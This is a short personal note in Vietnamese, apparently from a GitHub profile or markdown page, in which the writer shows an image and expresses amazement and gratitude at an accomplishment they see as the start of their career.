

Thú thật, mỗi khi nhìn lại nó, tôi vẫn thấy đầy kinh ngạc và cảm thấy may mắn. Tôi chưa từng nghĩ mình có thể thực hiện thành công điều này. 😊
Và đây mới chỉ là sự khởi đầu, vẫn còn rất nhiều thử thách phía trước trên hành trình phát triển sự nghiệp của tôi. 🚀🔥


